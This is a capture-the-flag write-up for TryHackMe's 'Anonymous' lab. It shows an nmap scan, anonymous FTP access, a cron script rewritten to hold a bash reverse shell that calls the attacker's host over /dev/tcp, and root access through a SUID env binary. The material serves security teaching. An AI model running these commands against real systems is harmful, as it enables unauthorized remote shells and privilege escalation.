






<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2022-02-09-anonymous.md">~/Anonymous</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat writeups/thm/anonymous.md



*https://tryhackme.com/room/box*<br />
`Linux` `FTP` `PrivEsc` `SUID`

<br />

## Platform CTF Writeup: Box
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
- [2. Exploitation](#2-exploitation)
  - [2.1 Clean.sh script rewrite](#21-clean-sh-script-rewrite)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 User Flag](#31-user-flag)
  - [3.2 Privilege Escalation](#32-privilege-escalation)
  - [3.3 Attack Vector](#33-attack-vector)
  - [3.4 Root Flag](#34-root-flag)
- [4. Conclusion](#4-conclusion)
- [References](#references)

# Walkthrough

### Summary:

The Anonymous room on TryHackMe is a beginner-friendly room that covers a range of topics such as enumeration, linux configuration vulnerabilities, and the corresponding privilege escalation. The room provides a good introduction to common tools and techniques used in penetration testing and highlights the importance of proper security measures.

## 1. Enumeration 

### 1.1 Nmap:<a name="11-nmap"></a>

We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```
sudo nmap -sC -sV -T4 -oN nmap/initial $ip
```

-   **-sV**: detect service version
-   **-sC**: run default nmap scripts
-   **-T4**: sets aggressive timing options for faster scanning
-   **-oN**: write output to nmap file

```
Nmap scan report for 10.10.119.210
Host is up (0.052s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 6m23s, deviation: 1s, median: 6m23s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-08T20:49:16
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-02-08T20:49:16+00:00
```
SCREENSHOT HERE

From the above output we can see that ports, **21**, **22**,  **139** and **445** are open. We can see that Anonymous FTP login is allowed, so let's start there.

---
## 2. Exploitation

In order to gain our initial foothold we login to the FTP server as enumerated above and search for any interesting files. As we are allowed to login anonymously, we do not require a password and can simply press enter when prompted.



Also note that we do seem to have read/write/execute rights to the files within this directory.

```
ftp> more to_do.txt
I really need to disable the anonymous login...it's really not safe
ftp> more removed_files.log
Running cleanup script:  nothing to delete
ftp> more clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

So basically, what we can do is execute bash commands per the **clean.sh** bash script and have the output of said command written to the **removed_files.log**. It seems we can get access to more than just the FTP server this way, so let's see if we can enumerate any interesting files on this underlying server. To do this we use the `get` command on the FTP server to download the script to our own machine, edit it with the command we wish to use, for example `id`. Then have it executed to confirm whether this works.


### 2.1 Clean.sh script rewrite:<a name="21-clean-sh-script-rewrite"></a>

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        id >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

We now upload it back to the FTP server by using the `put` command and see if that works. We can also `delete removed_files.log` for a cleaner output, since the script will automatically write to it every minute it seems, thus rewrite the file if it is no longer there.

```
ftp> delete removed_files.log
250 Delete operation successful.
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||49327|)
150 Ok to send data.
100% |**********************************************************************|   267        1.42 MiB/s    00:00 ETA
226 Transfer complete.
267 bytes sent in 00:00 (3.40 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||9897|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          267 Feb 09 12:23 clean.sh
-rw-rw-r--    1 1000     1000          124 Feb 09 12:24 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
ftp> more removed_files.log
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),
108(lxd)
```

Access confirmed, we now got the **namelessone** username who was also stated in the FTP banner during our anonymously login. We could of course see if we can grab any passwords or other interesting files/flags this way. Yet instead, we will rewrite the **clean.sh** script again to spawn a reverse shell to our attacking machine instead so we don't constantly have to wait 1 minute for our command output to be written to the **removed_files.log**.

+ **Reverse shell clean.sh script**:

Edit $IP with your own attacking machine IP also found per http://10.10.10.10/ if connected via the TryHackMe OpenVPN. Then we upload it back to the FTP server, initiate a Netcat listener through port 5554, and wait for the **clean.sh** script to be executed.

```
#!/bin/bash

bash -i >& /dev/tcp/$IP/5554 0>&1
```



+ **Spawning TTY Shell**:

Upon initial access, it is essential to achieve the highest functional shell possible for privesc purposes. Otherwise, commands like `sudo -l` will not work.
```
# On target machine  
which python  
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Background the listener using ctrl+z  
stty raw -echo; fg
# It then foregrounds the shell again, thus completing the process.
```

Now that we have an initial shell on this machine as user, we can further enumerate the machine and escalate our privileges to root.

---
## 3. Post Exploitation

### 3.1 User Flag:<a name="31-user-flag"></a>

In order to get the user flag, we simply need to use `ls` to see what files we can find.





### 3.2 Privilege Escalation:<a name="32-privilege-escalation"></a>

There is a **pics** share we've got access to including two pictures of dogs *(corgo2.jpg and puppos.jpeg)*. Nothing else of interest. So let's enumerate some further.

+ We can read the /etc/passwd file, yet do not have write privileges, nor can we read the /etc/shadow file.
+ Nothing interesting in the bash history.
+ No authorized_keys nor id_rsa to hunt down.
+ No sudo -l output.

Moving on to SUID permissions.

+ **Hunt down all files with SUID permission set**:

```
find / -type f -perm -04000 -ls 2>/dev/null
```

```
918992     36 -rwsr-xr-x   1 root        root               35000 Jan 18  2018 /usr/bin/env
```

### 3.3 Attack Vector:<a name="33-attack-vector"></a>

Neat! Alright, so according to GTFObins, if the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. To interact with an existing SUID binary skip the first command and run the program using its original path *(https://gtfobins.github.io/gtfobins/env/)*.

### 3.4 Root Flag:<a name="34-root-flag"></a>

We only need to add the full path to `./env /bin/sh -p` to escalate this path and get the root.txt flag from the /root folder.



---
## 4. Conclusion 

<div style="text-align:center">
    
</div>

The Anonymous room teaches several valuable lessons and is an excellent starting point for beginners looking to get into cybersecurity. The room covers a range of topics including the importance of proper privilege management, secure passwords, and careful configuration of services. 

The privilege escalation section is particularly helpful in showing how easily an attacker can gain root access on a system using misconfigured SUID scripts. Overall, the Anonymous room provides a great learning experience and serves as a good foundation for further exploration in cybersecurity.

---
## References
1. https://tryhackme.com/room/anonymous
2. https://gtfobins.github.io/gtfobins/env/